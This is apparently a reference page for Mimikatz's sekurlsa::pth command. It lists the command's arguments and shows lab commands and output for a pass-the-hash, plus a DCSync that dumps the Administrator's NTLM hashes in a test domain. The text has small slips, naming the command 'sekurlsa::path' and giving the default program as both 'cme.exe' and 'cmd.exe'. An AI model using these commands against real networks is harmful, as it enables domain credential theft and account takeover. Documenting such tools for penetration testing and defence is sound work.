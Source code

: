 # pth

`sekurlsa::path` performs [Pass-the-Hash](https://www.thehacker.recipes/ad/movement/ntlm/pth), [Pass-the-Key](https://www.thehacker.recipes/ad/movement/kerberos/ptk) and [Over-Pass-the-Hash](https://www.thehacker.recipes/ad/movement/kerberos/opth). Upon successful authentication, a program is run (n.b. defaulted to `cme.exe`). It has the following command line arguments:

* `/user` : the username to impersonate. It must be noted that Administrator is not the only name for this well-known account.
* `/domain` : the fully qualified domain name. If Active Directory domain services are not in use or in case of local user/admin, a computer or a server name, `workgroup` can be used.
* `/rc4` or `/ntlm` : the RC4 key / NT hash (derived of the user's password).
* `/aes128` : the AES128 key derived from the user's password and the realm of the domain.
* `/aes256` : the AES256 key derived from the user's password and the realm of the domain.
* `/run` : the command line to run (defaulted to `cmd.exe`).
* `/luid` : locally unique identifier. According to Microsoft, the [locally unique identifier (LUID)](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/igpupvdev/ns-igpupvdev-\_luid) is a 64-bit value guaranteed to be unique only on the system on which it was generated. The uniqueness of an LUID is guaranteed only until the system is restarted.
* `/impersonate` : It performs [user token impersonation](pth.md#with-token-impersonation). It must be noted that a new process is not spawned but the token is injected on the process running Mimikatz.

{% hint style="info" %}
LM and NT hashes are used to authenticate accounts using the NTLM protocol. These hashes are often called NTLM hash and many documentations, resources, blogpost and tools mix terms. In this case, "ntlm" refers to the NT hash.

([more information](https://www.thehacker.recipes/ad/movement/ntlm))
{% endhint %}

{% hint style="warning" %}
Doing [Pass-the-Hash](https://www.thehacker.recipes/ad/movement/ntlm/pth) on a Windows system requires specific privilege. It either requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account). This doesn't apply to [Pass-The-Ticket](https://www.thehacker.recipes/ad/movement/kerberos/ptt) which uses an official API.
{% endhint %}

```
mimikatz # sekurlsa::pth /user:Administrator /domain:hacklab.local /ntlm:b09a14d2d325026f8986d4a874fbcbc7
user    : Administrator
domain  : hacklab.local
program : cmd.exe
impers. : no
NTLM    : b09a14d2d325026f8986d4a874fbcbc7
  |  PID  5896
  |  TID  4620
  |  LSA Process is now R/W
  |  LUID 0 ; 82772120 (00000000:04ef0098)
  \_ msv1_0   - data copy @ 0000023A0E8BD5C0 : OK !
  \_ kerberos - data copy @ 0000023A0E9FF5A8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 0000023A0E941CE8 (32) -> null
```

![Pass the Hash](<../../../.gitbook/assets/2 (3).png>)

### With token impersonation

As can be seen in the following output the `hacklab\optimus` user is a low privileged user in the `HACKLAB.LOCAL` active directory domain:

```
C:\Users\optimus>net user optimus /domain
The request will be processed at a domain controller for domain hacklab.local.

User name                    optimus
Full Name                    optimus prime
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            18/10/2021 15:39:30
Password expires             Never
Password changeable          19/10/2021 15:39:30
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   18/10/2021 15:56:39

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users
The command completed successfully.
```

An attempt to [DCSync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) with his credentials will result in the following:

```
mimikatz # lsadump::dcsync /user:Administrator
[DC] 'hacklab.local' will be the domain
[DC] 'DC.hacklab.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
ERROR kuhl_m_lsadump_dcsync ; GetNCChanges: 0x000020f7 (8439)
```

However, by using the `/impersonate` option, [DCSync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) can be performed without spawning a new window:

```
mimikatz # sekurlsa::pth /user:Administrator /domain:hacklab.local /ntlm:b09a14d2d325026f8986d4a874fbcbc7 /impersonate
user    : Administrator
domain  : hacklab.local
program : C:\Users\Public\x64\mimikatz.exe
impers. : yes
NTLM    : b09a14d2d325026f8986d4a874fbcbc7
  |  PID  7368
  |  TID  3204
  |  LSA Process is now R/W
  |  LUID 0 ; 86889532 (00000000:052dd43c)
  \_ msv1_0   - data copy @ 0000023A0E8BD7B0 : OK !
  \_ kerberos - data copy @ 0000023A0E9FE8E8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 0000023A0E96C0E8 (32) -> null
** Token Impersonation **
```

```
mimikatz # lsadump::dcsync /user:Administrator
[DC] 'hacklab.local' will be the domain
[DC] 'DC.hacklab.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   : 01/01/1601 01:00:00
Password last change : 24/09/2021 16:24:41
Object Security ID   : S-1-5-21-2725560159-1428537199-2260736313-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: b09a14d2d325026f8986d4a874fbcbc7
    ntlm- 0: b09a14d2d325026f8986d4a874fbcbc7
    ntlm- 1: a06b19f88e0432e937a67fb6848e56bd

...Output Omitted...
```

According to Benjamin the following must be taken into consideration:

* This command does not work with minidumps (nonsense)
* this new version of 'Pass-The-Hash' replaces RC4 keys of Kerberos by the NT hash (and/or replaces AES keys). It allows the Kerberos provider to ask TGT tickets.
* NT hash is mandatory on XP/2003/Vista/2008 and before 7/2008r2/8/2012 kb2871997 (AES not available or replaceable)
* AES keys can be replaced only on 8.1/2012r2 or 7/2008r2/8/2012 with kb2871997, in this case an NT hash is not required.
